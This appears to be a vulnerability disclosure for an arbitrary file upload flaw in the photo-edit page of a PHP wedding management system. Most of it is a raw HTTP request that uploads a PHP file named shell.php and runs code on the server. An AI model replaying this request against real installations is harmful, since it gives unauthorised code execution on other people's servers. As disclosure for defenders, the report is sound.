 # Wedding Management System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/photos_edit.php?id=37

Loophole location：The editing function of "Gallery" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "photos_edit.php" file.

Click "Edit" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/photos_edit.php?id=37 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/photos_edit.php?id=37
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------30999215895801
Content-Length: 826

-----------------------------30999215895801
Content-Disposition: form-data; name="booking_id"

34
-----------------------------30999215895801
Content-Disposition: form-data; name="title"


-----------------------------30999215895801
Content-Disposition: form-data; name="caption"


-----------------------------30999215895801
Content-Disposition: form-data; name="alternate_text"


-----------------------------30999215895801
Content-Disposition: form-data; name="description"


-----------------------------30999215895801
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------30999215895801
Content-Disposition: form-data; name="submit"

Edit
-----------------------------30999215895801--
```

The files will be uploaded to this directory \admin\upload\gallery\

![image](https://user-images.githubusercontent.com/54017627/167980065-e4b1ed4e-23bb-42f5-a31a-a17443a0a53a.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167980032-7a1783a7-b257-429a-ae06-8954c38f8fc5.png)
